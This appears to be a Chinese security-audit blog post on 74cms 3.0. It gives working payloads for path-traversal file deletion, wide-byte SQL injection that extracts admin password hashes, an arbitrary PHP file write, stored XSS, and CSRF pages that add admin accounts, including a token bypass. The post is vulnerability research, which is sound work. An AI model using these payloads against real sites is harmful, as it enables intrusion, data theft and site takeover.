记录74cms3.0审计过程以及漏洞分析
全局分析 先进入根目录的index.php，跟进包含的头文件/include/common.inc.php，该文件又包含了三个文件，其中/data/config.php和/include/74cms_version.php为网站配置和版本文件，无需关心。/include/common.fun.php为函数文件。继续往下审计，发现21-30行对输入数据进行了过滤
1 2 3 4 5 6 7 8 9 10 if (!empty ($_GET)){ $_GET = addslashes_deep($_GET); } if (!empty ($_POST)){ $_POST = addslashes_deep($_POST); } $_COOKIE = addslashes_deep($_COOKIE); $_REQUEST = addslashes_deep($_REQUEST);
在/include/common.fun.php跟踪addslashes_deep函数

过滤总结起来就是对$_GET $_POST $_COOKIE $_REQUEST数据都进行单引号双引号的转义，以及过滤标签的处理
GET,POST,COOKIE都有过滤，那么IP字段有没有过滤呢，按照之前审计都有一个getip()函数来获取头部的IP字段，果然在101行发现该函数

但是这里进行了正则匹配过滤出格式合法的IP值，所以我们无法利用IP字段
也就是说，在后面的审计过程中，只要发现文件包含了/include/common.inc.php，那么就无法通过注入标签进行XSS攻击，以及限制了SQL注入，但是，我们注意配置文件/include/mysql.class.php中的第29行设置了数据库的编码方式为GBK，所以在有单引号或双引号包裹的情况下是可以考虑进行宽字节注入 的
类似于前台，/admin/后台的文件头部也包含了/admin/include/admin_common.inc.php，过滤如下：
1 2 3 4 5 6 7 if (!get_magic_quotes_gpc()){ $_POST = admin_addslashes_deep($_POST); $_GET = admin_addslashes_deep($_GET); $_COOKIE = admin_addslashes_deep($_COOKIE); $_REQUEST = admin_addslashes_deep($_REQUEST); }
跟进admin_addslashes_deep函数
1 2 3 4 5 6 7 8 9 10 11 function admin_addslashes_deep ($value) if (empty ($value)) { return $value; } else { return is_array($value) ? array_map('admin_addslashes_deep' , $value) : addslashes($value); } }
可以发现后台对于客户端提交的数据只有转义的处理，是不会过滤掉标签的
漏洞分析 1.任意文件删除漏洞 /admin/admin_article.php第151-152行中存在可利用变量$_GET['img']导致任意文件删除漏洞

在全局分析中，我们知道，后台对$_GET只有转义的处理，所以我们构造路径穿越进行删除文件
payload：?act=del_img&img=../../info.php
2.SQL注入 /user/user_personal.php第947-951行存在可利用变量$setsqlarr导致SQL注入

我们可以注意到这里的数组变量$setsqlarr中的各个属性变量都只有转义的处理就拼接到SQL语句中，这是一个用户基本信息保存的功能代码，当查询不到$SESSION['uid']即未保存过信息时，会使用INSERT语句。反之则使用UPDATE语句，然后将保存的个人信息渲染到html页面中，跟踪一下updatetable()函数

了解语句后，我们先保存一个个人信息
之后再进行修改操作，payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST /74cms/user/user_personal.php?act=userprofile_save HTTP/1.1 Host: 127.0.0.1 Content-Length: 193 Cache-Control: max-age=0 Origin: http://127.0.0.1 Upgrade-Insecure-Requests: 1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/74cms/user/user_personal.php?act=userprofile Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: QS[uid]=1; QS[username]=user01; QS[password]=f9b56fc246a5142ad76408997edc1e4d; QS[utype]=2; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; BLUE[user_id]=4; BLUE[user_name]=user03; BLUE[user_pwd]=25f1d8643365bf6087fae3b2b5b012d6 Connection: close realname=123&sex=%C4%D0&birthday=111111&addresses=12312332&mobile=18912345678&phone=254221&qq=12345&msn=123%df',`profile`=(select pwd from 74_admin) where uid=1#&profile=123&Submit=%B1%A3%B4%E6
拼接后的sql语句为：
1 UPDATE 74 cms_members_info SET `realname` ='123' , `sex` ='男' , `birthday` ='111111' , `addresses` ='12312332' , `mobile` ='18912345678' , `phone` ='254221' , `qq` ='12345' , `msn` ='123�\\\',`profile`=database() where uid=1#' , `profile` ='123' WHERE uid='1' `
执行后profile字段显示的值就是数据库名

另外/user/user_company_points.php第861行同样存在可利用变量$setsqlarr，导致SQL注入

payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST /74cms/user/user_company_points.php?act=company_profile_save HTTP/1.1 Host: 127.0.0.1 Content-Length: 416 Cache-Control: max-age=0 Origin: http://127.0.0.1 Upgrade-Insecure-Requests: 1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/74cms/user/user_company_points.php?act=company_profile Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: QS[uid]=2; QS[username]=user02; QS[password]=fd14a8ceb080688b964f9f89a66a730d; QS[utype]=1; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; BLUE[user_id]=4; BLUE[user_name]=user03; BLUE[user_pwd]=25f1d8643365bf6087fae3b2b5b012d6 Connection: close companyname=1234&nature_cn=%B9%FA%C6%F3&nature=46&trade_cn=%BC%C6%CB%E3%BB%FA%C8%ED%BC%FE%2F%D3%B2%BC%FE&trade=1&district_cn=%B5%D8%C7%F81+%2F+%B5%D8%C7%F81%D7%D3%C0%E0&district=1&sdistrict=2&scale_cn=20%C8%CB%D2%D4%CF%C2&scale=80®istered=123¤cy=%C8%CB%C3%F1%B1%D2&contact=123&telephone=1234567&email=123%40123.com&website=%df',`contents`=database() where uid=2#&address=123&contents=123&Submit=%B1%A3%B4%E6
该cms存在多处$setsqlarr都可以利用，不止以上两个，不一一列举
3.任意文件写入漏洞 /admin/admin_templates.php第125行fwrite()函数中存在可利用变量$handle和$tpl_content，导致任意文件写入漏洞

在全局分析中，我们已经知道后台对我们提交的数据只有转义处理，所以我们可以很容易的写入一个webshell，payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 POST /74cms/admin/admin_templates.php?act=do_edit HTTP/1.1 Host: 127.0.0.1 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: QS[uid]=1; QS[username]=user01; QS[password]=f9b56fc246a5142ad76408997edc1e4d; QS[utype]=2; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; BLUE[user_id]=4; BLUE[user_name]=user03; BLUE[user_pwd]=25f1d8643365bf6087fae3b2b5b012d6 Connection: close Content-Type: application/x-www-form-urlencoded Content-Length: 61 tpl_dir=../&tpl_name=info.php&tpl_content=<?php phpinfo(); ?>

执行完成后在网站根目录下写入一个webshell

4.存储型XSS漏洞 /link/add_link.php第36行存在可利用变量$_POST['link_logo']在/admin/admin_link.php中将该变量渲染到/admin/templates/default/link/admin_link.htm的<span style="color:#FF6600" title="<img src= border=0/>" class="vtip">[logo]</span>中，存在存储型XSS漏洞
/link/add_link.php对添加的链接信息数组$setsqlarr有转义加去标签的处理

然后/admin/admin_link.php中get_links()函数将添加的链接信息从数据库中取出渲染到前台页面中

我们跟进link/admin_link.htm
在第58行中<span style="color:#FF6600" title="<img src= border=0/>" class="vtip">[logo]</span>我们可以看到前台将link_logo这以变量值作为img标签的读取源，虽然有去标签的处理，但是这里我们不需要加入标签，利用onerror 事件也可以进行XSS攻击
payload：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 POST /74cms/link/add_link.php?act=save HTTP/1.1 Host: 127.0.0.1 Content-Length: 117 Cache-Control: max-age=0 Origin: http://127.0.0.1 Upgrade-Insecure-Requests: 1 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.106 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Referer: http://127.0.0.1/74cms/link/add_link.php Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Cookie: QS[uid]=2; QS[username]=user02; QS[password]=fd14a8ceb080688b964f9f89a66a730d; QS[utype]=1; bdshare_firstime=1551059496947; PHPSESSID=g99k0jev6eed0jpuce6tvm1jl3; BLUE[user_id]=4; BLUE[user_name]=user03; BLUE[user_pwd]=25f1d8643365bf6087fae3b2b5b012d6 Connection: close alias=QS_index&link_name=123&link_url=123&link_logo=%23+onerror%3Dalert%28%2Fxss%2F%29&app_notes=&Submit=%CC%E1%BD%BB

执行成功后，在页面每次将鼠标移动至[logo] 处都会弹框
5.CSRF漏洞 /admin/admin_users.php第42-68行由于未加入token验证，可以造成CSRF漏洞任意添加管理员账号

攻击过程：构造一个虚假404页面诱导管理员点击，页面代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <!DOCTYPE html> <html > <head > <title > 404 Not Found</title > </head > <body > <h1 > Not Found</h1 > <p > The requested URL /info.php was not found on this server.</p > <script > function add () var xmlhttp = new XMLHttpRequest(); var xmldata = 'admin_name=test2&email=1234%40123.com&password=123456&password1=123456&rank=123&submit3=%CC%ED%BC%D3' ; xmlhttp.open('POST' ,'http://127.0.0.1/74cms/admin/admin_users.php?act=add_users_save' ,true ); xmlhttp.setRequestHeader('Content-Type' ,'application/x-www-form-urlencoded' ); xmlhttp.withCredentials='true' ; xmlhttp.send(xmldata); } add(); </script > </body > </html >
页面利用ajax技术在后台将注册信息提交到admin/admin_users.php
另外在74cms 3.6版本中添加了token机制认证，我们知道token认证机制是取出当前页面提交的token与存放在Session 中的token值进行比较，相同则通过验证，每当我们刷新一次页面，token值就会发生变化。但是我们仍然可以进行CSRF攻击，办法就是利用iframe框架访问token值的页面，再利用js代码获取token值与信息一起提交即可，附上3.6版本csrf攻击的代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 <!DOCTYPE html> <html > <head > <title > 404 Not Found</title > </head > <script type ="text/javascript" > function add () var token = document .getElementById('hack' ).contentWindow.document.getElementsByName('hiddentoken' )[0 ].value; var xmlhttp = new XMLHttpRequest(); var xmldata = 'admin_name=test2&email=1234%40123.com&password=123456&password1=123456&rank=123&submit3=%CC%ED%BC%D3&hiddentoken=' +token; xmlhttp.open('POST' ,'http://127.0.0.1/74cms3.6/admin/admin_users.php?act=add_users_save' ,true ); xmlhttp.setRequestHeader('Content-Type' ,'application/x-www-form-urlencoded' ); xmlhttp.withCredentials='true' ; xmlhttp.send(xmldata); } </script > <iframe src ="http://127.0.0.1/74cms3.6/admin/admin_users.php?act=add_users" id ='hack' border ='0' style ='display:none' > </iframe > <body onload ="add()" > <h1 > Not Found</h1 > <p > The requested URL /info.php was not found on this server.</p > </body > </html >
总结 该cms很多漏洞的利用点都在于未对SQL数组变量$setsqlarr进行过滤以及对后台输入只有转义处理，存在诸多输入过滤不足的情况